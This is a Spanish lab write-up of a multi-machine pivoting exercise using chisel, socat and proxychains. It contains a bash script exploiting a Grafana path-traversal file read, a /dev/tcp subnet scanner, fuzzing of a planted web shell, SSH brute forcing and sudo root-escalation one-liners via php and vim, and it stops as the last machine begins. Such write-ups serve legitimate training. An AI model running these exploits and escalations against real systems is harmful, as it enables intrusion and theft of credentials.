- Tags: #pivoting #socks5 #socat 
____
algunas imágenes pueden contener otras IPs puesto que son maquinas ya resueltas y son las mismas que se aplican en este ejercicio de pivoting por lo que se reutilizaron lo writeups previos.
____

## Maquina Move
_____
comenzamos la maquina con el escaneo de nmap para determinar los puertos abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.10.2 -oG allport
```

despues aplicamos el escaneo para conocer la versión y servicio que corren en los puertos

```shell
nmap -p <puertos> <direccion_ip> -sCV -oN target
```
____

_____
tenemos tres puertos abiertos, investigaremos primero el puerto 21 puesto que es vulnerable.
___

____
tenemos un archivo que parece ser de keepass, lo descargamos e intentamos acceder.
____

___
pero nos da un error, y nos sugiere que la versión del archivo KeePass (.kdbx) no es compatible con la versión actual de `keepass2john`

por lo que veamos que tenemos en la web.
_____

___
tenemos un html, veamos que contiene.
____

______
nos dice que accedamos a un directorio para poder leer el archivo pass.txt, hasta los momentos no tenemos acceso a ese directorio.

lo siguiente que haremos es revisar el puerto 3000 que tenemos y ver que encontramos.
____

_____
tenemos una versión, podemos buscar vulnerabilidades y ver que obtenemos.
_____

_____
tenemos una para esa versión lo que nos permite es mediante una vulnerabilidad LFI podremos leer archivos del sistema.

para eso tenemos un exploit en python, pero para practicar un poco el bash scripting diseñe mi propio script para explotar la vulnerabilidad.

```bash
#!/bin/bash

plugins=(
"mysql"
"news"
"nodeGraph"
"opentsdb"
"piechart"
"pluginlist"
"postgres"
"prometheus"
"stackdriver"
"stat"
"state-timeline"
"status-histor"
"table"
"table-old"
"tempo"
"testdata"
"text"
"timeseries"
"welcome"
"zipkin"
)

  

for i in ${plugins[@]}; do

output=$(curl --path-as-is http://10.10.10.2:3000/public/plugins/${i}/../../../../../../../../../../etc/passwd 2>/dev/null)

if [ $? -eq 0 ]; then
	echo -e "\n### Vulnerable: ${i} ###\n"
	echo "$output"
	break
else
	echo "Not Vulnerable: ${i}"
fi
done
```

no es la gran cosa pero cumple su función, aplicando el script podremos ver el /etc/passwd.
_____

____
acá podemos ver usuarios del sistema, como grafana y freddy.

si podemos leer archivos del sistema tenemos que intentar leer el /tmp/pass.txt.
_______

____
tenemos lo que parece ser una contraseña por lo que intentaremos acceder por ssh con los dos usuarios que tenemos.
______

___
accedimos con el usuario freddy por lo que aplicando sudo -l nos aparece que podemos ejecutar maintenance.py con root y sin contraseña, vemos que contiene el archivo y que permisos tiene.
_____

____
podemos modificar el archivo y aprovechar para convertirnos en root.
____

_____

____
de esta forma obtenemos root.


____
## Pivotin whereismywebshell
_______
comenzamos configurando chisel y el proxichains para establecer el puente y acceder a la otra maquina.

tenemos dos segmentos de red.
_____

___
aplicamos un escaneo de red con un script de bash improvisado que no usa ping puesto que en la maquina no está instalado, en cambio utilizamos tcp.

```bash                                                      
#!/bin/bash

Ctrl_c() {
        echo -e "[!] Saliendo.....\n"
        tput cnorm 
        exit 1
}

trap Ctrl_c INT

tput civis

subnet="20.20.20"

for ip in {1..254}; do
  if timeout 1 bash -c "echo >/dev/tcp/$subnet.$ip/22" 2>/dev/null; then
    echo "Host $subnet.$ip is up"
  else
    echo "Host $subnet.$ip is down"
  fi
done
tput cnorm
```

de esta forma sabemos que otros hosts estan activos en el segundo segmento de red.

ahora si podemos configurar el chisel.
______

___
ahora activamos el foxyproxy para poder acceder a la web.
____

____
tenemos una web la cual si bajamos encontraremos ese mensaje.

aplicaremos fuzzing a la web para ver que encontramos, utilizaremos gobuster.

```shell
gobuster dir --proxy socks5://127.0.0.1:1080 -u http://20.20.20.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html | grep -vE "timeout|OK"
```

_____

_____
tenemos un html y un php, veamos el html.
_____

______
este mensaje hace referencia a al fichero .php que encontramos antes, no conocemos que codigo contiene el archivo pero por intuición podría ser código que nos permitirá ejecutar comandos pero nos falta un parámetro, el mismo parámetro que se coloca en `&_GET['parametro']`.

para encontrarlo aplicaremos fuzzing con wfuzz.

```shell
proxychains wfuzz --hc=500 -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://20.20.20.3/shell.php?FUZZ=id" 2>/dev/null | grep -v -e "|S-chain|-<>-127.0.0.1:1080-<><>-20.20.20.3:80-<><>-OK" -e "<><>-OK"
```

tuve que filtrar la salida para ver solo lo que me interesaba es por eso que el wfuzz se ve un poco sobre cargado. 
____

____
ya que tenemos el parámetro vamos a probar y ver que tal.
______

_____
tenemos ejecución de comandos por lo que nos enviaremos una reverse shell a nuestra maquina.

para que la reverse shell pueda llegar a nuestra maquina atacante debemos configurar socat para que redirija todo el trafico de un puerto a nuestro puerto que utilizaremos con netcat.
____

______
ganamos acceso y ahora debemos buscar la forma de escalar privilegios, por lo que enumeramos usuarios, permisos y procesos, pero no obtenemos nada solido.

por lo que recordamos que el mensaje que nos salia en la web el cual decía que había un secretito en tmp.
_____

____
por lo que tenemos la contraseña de root.
___



## Pivoting Inclusion
_______
configuramos una `authorized_keys` para conectarnos por ssh y poder transferir el chisel, antes de configurar el chisel debemos configurar el proxychains, activando del dinamyc_chains y creando un nuevo socks5.

una vez hacemos todo eso, ahora si podemos comenzar a configurar el chisel.
_____

_______
ahora tendremos acceso a la maquina inclusion, por lo que empezaremos con el reconocimiento con los escaneos típicos de nmap en el cual conoceremos los puertos abiertos.

```shell
proxychains nmap --top-ports 500 --open -T5 -v -n 30.30.30.3 -sT -Pn -oG allports 2>&1 | grep -vE "timeout|OK"
```

para posteriormente aplicar el escaneo de versiones y servicios del mismo nmap por lo que continuemos.

``` shell
proxychains nmap -sT -Pn -sCV -p 22,80 30.30.30.2 -oN targeted 2>&1 | grep -v "OK"
```

tenemos una pagina web la cual tiene la page de apache2 cuando esta recién instalado.

aplicando fuzzing con gobuster encontramos que tiene un directorio. 
_____

______
si vemos el directorio nos encontraremos con lo siguiente.
_____

_____
esto ya es un indicativo que nos permitirá guiarnos y lograr conseguir algo. 
____

______
tenia pinta de ser un RCE por como estaba representado en la imagen anterior pero resulto ser un escenario para explotar un Local File Inclusión.

esto nos da a conocer dos usuarios a los cuales aplicaremos fuerza bruta para ver si podemos acceder por ssh.
_____

____
utilice hydra al principio pero estaba tardando mucho por lo que al final opte por crackmapexec. 

lo importante es que tenemos credenciales por lo que accedemos a la maquina por ssh.
____

______
tenemos el usuario manchi y debemos pivotar al usuario seller, no vemos vectores obvios que nos permitan pivotar al usuario seller por lo que usaremos fuerza bruta para encontrar sus credenciales.

con un script de mario y una parte de diccionario de rockyou puesto que el original es muy pesado, separe una parte de mil contraseñas y ese fue el que utilice.

```shell
split -l 1000 /ruta/del/diccionario part_
```

utilizando ese comando para dividirlo.
____

_____
tenemos una contraseña para el usuario seller, por lo que ahora veremos como escalar a root.
____

_____
podemos ejecutar php sin proporcionar contraseña, por lo que aplicamos el siguiente comando de php.

```php
sudo su php -r "system('/bin/bash')"
```

____

____
y es así que logramos completar la maquina.


## Pivoting Trust
______
configuramos el socat y chisel para abrir un nuevo tunel, añadiendo un nuevo socks5, esto nos permitirá abrir otra sesión en el server del chisel.
_____

______
acá la configuración del proxychains.
_____

_____
ahora que tenemos alcance podemos empezar a realizar los escaneos con nmap.

comenzamos aplicando el escaneo básico de nmap en este caso con el proxychains.
___

_____
tenemos dos puertos abiertos, procedemos a aplicar los scripts básicos de reconocimiento.
____

_____
investigando la web no encontramos nada interesante por lo que aplicaremos fuzzing con gobuster para ver que encontramos. 
_____

_____
tenemos un fichero .php que al entrar en el mismo nos aparece lo siguiente.
___

____
por lo que mario es un posible usuario, probemos y apliquemos fuerza bruta con hydra.
____

_____
tenemos una credencial par el usuario mario y podemos conectarnos por ssh.
____

____
aplicando el sudo -l vemos que podemos ejecutar vim sin proporcionar contraseña por lo que veamos la forma de escalar privilegios.
______

____
tenemos que aplicando el siguiente comando ya podremos ser root.

```bash
sudo vim -c ':!/bin/bash'
```


## Pivoting Upload
_______
ya esta es la ultima maquina a la cual vamos a pivotar por lo que configuremos el chisel y socat una ultima vez.

también debemos crear un nuevo socks5 para esta nueva sesión en el server de chisel.
______
